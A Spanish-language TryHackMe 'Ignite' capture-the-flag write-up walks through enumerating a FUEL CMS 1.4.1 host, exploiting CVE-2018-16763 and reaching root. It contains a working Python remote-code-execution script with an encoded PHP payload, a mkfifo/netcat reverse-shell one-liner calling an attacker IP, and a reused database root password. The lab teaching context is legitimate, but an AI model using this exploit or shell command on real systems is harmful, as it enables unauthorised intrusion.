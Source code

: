 ```yaml
---
layout: post
title: Ignite TryHackMe
tags: [cms,exploitdb]
description: "Ignite TryHackMe"
---
```


![logo](https://tryhackme-images.s3.amazonaws.com/room-icons/676cb3273c613c9ba00688162efc0979.png)

- [Enumeración](#enumeraci-n)
- [Nmap](#nmap)
- [Explotación](#explotaci-n)
  * [Servicio web (puerto 80)](#servicio-web--puerto-80-)
  * [WhatWeb](#whatweb)
- [Escalada de privilegios](#escalada-de-privilegios)

## Enumeración

## Nmap

```
# Nmap 7.91 scan initiated Sun Sep  5 00:35:00 2021 as: nmap -p80 -sC -sV -Pn -oN targeted 10.10.125.27
Nmap scan report for 10.10.125.27
Host is up (0.24s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
```


## Explotación

### Servicio web (puerto 80)

Al intentar realizar fuzzing, el servicio web tarda en responder.  
lo mejor es investigando sobre la tecnologia que utiliza o si es un `CMS` con una versión vulnerable  

![web](/assets/imgs/ignite/web.png)

### WhatWeb

```
❯ whatweb http://10.10.121.135 | tr "," "\n"
http://10.10.121.135 [200 OK] Apache[2.4.18]
 Country[RESERVED][ZZ]
 HTML5
 HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)]
 IP[10.10.121.135]
 JQuery[1.7.1]
 Script
 Title[Welcome to FUEL CMS]
```

Buscando un exploit para el gestor de contenidos `Fuel de version 4.1`.

```
❯ searchsploit fuel 4.1
------------------------------------------------------------------------------------------------------------------------------------------------------------ ------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                                                                                                                  | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                                                                                                  | php/webapps/49487.rb
------------------------------------------------------------------------------------------------------------------------------------------------------------ ------------------------
```

FUEL CMS 1.4.1 permite la evaluación de código PHP a través del parámetro de pages/select/ filtrar el parámetro de vista previa/datos. Esto puede llevar a la ejecución remota de código previa a la autenticación.  
[CVE-2018-16763](https://www.cvedetails.com/cve/CVE-2018-16763/)

**Codigo malicioso:**

```
import requests
import urllib

url = "http://10.10.121.135"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
    xxxx = raw_input('cmd:')
    burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
    proxy = {"http":"http://127.0.0.1:8080"}
    r = requests.get(burp0_url)

    html = "<!DOCTYPE html>"
    htmlcharset = r.text.find(html)

    begin = r.text[0:20]
    dup = find_nth_overlapping(r.text,begin,2)

    print r.text[0:dup]
```

Comprobamos la ejecución remota de comandos

```
❯ python rce.py                                                                               
cmd:ping -c 2 10.9.102.237                                                                    

──────────────────────────────────────────────────────────────────────────────────────────────
❯ sudo tcpdump -i tun0 icmp                                                                   
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode                    
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes                    
23:37:55.977458 IP 10.10.121.135 > 10.9.102.237: ICMP echo request, id 1702, seq 1, length 64
23:37:55.977520 IP 10.9.102.237 > 10.10.121.135: ICMP echo reply, id 1702, seq 1, length 64
23:37:57.037877 IP 10.10.121.135 > 10.9.102.237: ICMP echo request, id 1702, seq 2, length 64
23:37:57.037918 IP 10.9.102.237 > 10.10.121.135: ICMP echo reply, id 1702, seq 2, length 64

```

De la misma forma nos spawneamos una shell inversa

```
cmd:bash -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.102.237 4444 >/tmp/f"

────────────────────────────────────────────────────────────────────────────────────────────
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.102.237] from (UNKNOWN) [10.10.121.135] 60052
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

## Escalada de privilegios

Buscando archivos y directorios de configuración propios del gestor `Fuel`.

```
www-data@ubuntu:/var/www/html/fuel$ ls -lRa | grep "config" --color
drwxrwxrwx  2 root root 4096 Jul 26  2019 config
./application/config:
-rwxrwxrwx  1 root root   452 Jul 26  2019 MY_config.php
-rwxrwxrwx  1 root root 18445 Jul 26  2019 config.php
drwxrwxrwx  2 root root 4096 Jul 26  2019 config
drwxrwxrwx 2 root root 4096 Jul 26  2019 config
./modules/fuel/assets/docs/fuel_modules_example/config:
-rwxrwxrwx  1 root root   2957 Jul 26  2019 build-config.js
-rwxrwxrwx  1 root root   1149 Jul 26  2019 config.default.js
-rwxrwxrwx  1 root root   1321 Jul 26  2019 config.js
./modules/fuel/config:
drwxrwxrwx 2 root root 4096 Jul 26  2019 config
./modules/fuel/libraries/parser/dwoo/Dwoo/Adapters/CodeIgniter/config:
-rwxrwxrwx 1 root root  7099 Jul 26  2019 configs-settings.php
-rwxrwxrwx 1 root root  227 Jul 26  2019 configuration.php
drwxrwxrwx  2 root root 4096 Jul 26  2019 config
./modules/fuel/views/_generate/advanced/config:
```

Ingresamos a la ruta `./application/config` y visualizamos un archivo `database.php` que parece ser interesante.
Obtenemos unas credenciales para el usuario root.

```
www-data@ubuntu:/var/www/html/fuel/application/config$ cat database.php
[...]
$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'mememe',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',
        'pconnect' => FALSE,
        'db_debug' => (ENVIRONMENT !== 'production'),
        'cache_on' => FALSE,
        'cachedir' => '',
        'char_set' => 'utf8',
        'dbcollat' => 'utf8_general_ci',
        'swap_pre' => '',
        'encrypt' => FALSE,
        'compress' => FALSE,
        'stricton' => FALSE,
        'failover' => array(),
        'save_queries' => TRUE
```

```
www-data@ubuntu:/var/www/html/fuel/application/config$ su
Password:
root@ubuntu:/var/www/html/fuel/application/config# whoami
root
```

- [Fuel_CMS](https://github.com/daylightstudio/FUEL-CMS)
